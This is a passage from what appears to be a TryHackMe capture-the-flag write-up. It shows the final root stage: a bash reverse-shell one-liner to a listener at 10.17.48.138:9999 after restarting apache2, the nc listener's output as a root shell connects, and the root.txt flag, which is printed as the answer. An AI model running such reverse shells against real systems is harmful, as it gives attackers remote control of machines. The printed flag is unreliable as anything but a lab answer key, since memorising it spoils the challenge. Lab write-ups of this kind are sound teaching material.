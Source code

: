 - Let's restart `apache2`.
```\
sh -i >& /dev/tcp/10.17.48.138/9999 0>&1
```
- Finally we need to listen using `nc`. After a while, we will get the shell.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.114.146] 49412
sh: 0: can't access tty; job control turned off
# 
```
- Let's read the `root.txt` file.
```
# ls
buildStatus
builds
go
root.txt
src
# cat root.txt  
thm{7f336f8c359dbac18d54fdd64ea753bb}
```
## Answer
```
thm{7f336f8c359dbac18d54fdd64ea753bb}
```